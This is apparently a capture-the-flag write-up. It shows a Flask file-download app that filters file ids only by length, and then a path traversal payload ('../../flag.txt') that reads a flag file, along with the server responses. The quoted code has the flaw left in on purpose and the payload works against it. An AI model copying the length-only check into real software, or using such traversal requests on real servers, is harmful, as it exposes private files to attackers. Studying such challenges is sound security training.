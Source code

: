 
---

# Solution

Reading source code, we can see that the app only check the length of the input that search for the files. So we can exploit this feature by using path traversal

```python
@app.route('/search/<path:file_id>')
def search(file_id):
    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404

    return {'status': 'success', 'message': 'File found', 'id': file_id}

def filter_file_id(file_id : str):
    if len(file_id) > 36: # uuid4 length
        return None
    
    return file_id

@app.route('/download/<path:file_id>')
def download(file_id):
    file_id = filter_file_id(file_id)

    if file_id is None:
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    if not os.path.exists('uploads/' + file_id):
        return {'status': 'error', 'message': 'File not found'}, 404
    
    if not os.path.isfile('uploads/' + file_id):
        return {'status': 'error', 'message': 'Invalid file id'}, 400

    return send_file('uploads/' + file_id, download_name=f"{file_id}.{file_exts.get(file_id, 'UNK')}")
```
# Payload
```
/search/../../flag.txt
We will receive a successful message
{"id":"../../flag.txt","message":"File found","status":"success"}

/download/../../flag.txt
bctf{fake_flag}
```

---

